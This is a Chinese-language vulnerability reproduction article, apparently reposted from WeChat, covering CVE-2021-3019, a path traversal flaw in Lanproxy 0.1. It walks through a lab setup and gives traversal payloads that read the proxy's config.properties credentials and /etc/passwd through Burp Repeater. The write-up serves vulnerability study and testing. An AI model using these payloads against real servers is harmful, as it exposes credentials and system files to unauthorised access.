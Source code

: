 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/XESLeFzXAOQ8JpXbGNqtbQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWhanrkIFAibBic1icRmsiax1icwzTia9vclZBmj278YeMtSWgicBEhZOicmnEraiblJiciaKOuUdg4UoQFYnuia5w/640?wx_fmt=gif)

01: 漏洞概述

Lanproxy 是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持 tcp 流量转发，可支持任何 tcp 上层协议（访问内网网站、本地支付接口调试、ssh 访问、远程桌面等等）本次 Lanproxy 路径遍历漏洞 (CVE-2021-3019) 通过../ 绕过读取任意文件。该漏洞允许目录遍历读取 /../conf/config.properties 来获取到内部网连接的凭据。

  

1

  

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWhanrkIFAibBic1icRmsiax1icwzTia9vclZBmj278YeMtSWgicBEhZOicmnEraiblJiciaKOuUdg4UoQFYnuia5w/640?wx_fmt=gif)

02: 影响版本

lanproxy 0.1

  

2

  

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWhanrkIFAibBic1icRmsiax1icwzTia9vclZBmj278YeMtSWgicBEhZOicmnEraiblJiciaKOuUdg4UoQFYnuia5w/640?wx_fmt=gif)

03: 环境搭建

下载 proxy-server-0.1.zip

下载地址

```
https://file.nioee.com/d/2e81550ebdbd416c933f/
```

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TRftibwvfUMpWbC0gUnRabmwUWre1brl4ufOPqXgtQggwnib8VwMJyLa9XdNqGDa4qfdwI3kDLX7ibA/640?wx_fmt=png)

解压安装之后移动文件

mv proxy-server-0.1 /usr/local/

  

3

  

接着启动服务

cd /usr/local/proxy-server-0.1/bin

chmod +x startup.sh

./startup.sh

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TRftibwvfUMpWbC0gUnRabmnBjrPqmrVK75kEk8n1cMBerv3ef5tG6PJEyflVmeA2F7PhOV5tJPMw/640?wx_fmt=png)

  

3

  

访问 http://host_ip:8090 ，即可看到登录界面。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TRftibwvfUMpWbC0gUnRabmxNvUIF617gtnvtliafBnzyNtKAuryiaYEDzar3Zwx1VkPHdiaFXJe8TXA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWhanrkIFAibBic1icRmsiax1icwzTia9vclZBmj278YeMtSWgicBEhZOicmnEraiblJiciaKOuUdg4UoQFYnuia5w/640?wx_fmt=gif)

04: 漏洞复现

相关 Poc:

```
/../conf/config.properties
```

首先在登陆页面进行抓包

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TRftibwvfUMpWbC0gUnRabmPkBic1a7LISeu82icfkRKVPHotqiaLnPZkAumic8ODEh0AezQTtuYSh31A/640?wx_fmt=png)

  

4

  

把包发到 REPEATER 以后 在 GET 旁边加上 /../conf/config.properties 来获取到内部网连接的凭据。

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TRftibwvfUMpWbC0gUnRabmiciakoracxcK7n7bZHYS7Gs0ZU2q5T2ib5ofErTf7VrMPCQe46NbzRwXw/640?wx_fmt=png)

  

4

  

最后读取 passwdPOC:

```
/../../../../../../../../../etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9TRftibwvfUMpWbC0gUnRabmfXcFlecWWnmBNvLlFiamTwm4ibZP9ibsc5RFjOS5cJ3m1cJBZHibcjEbQA/640?wx_fmt=png)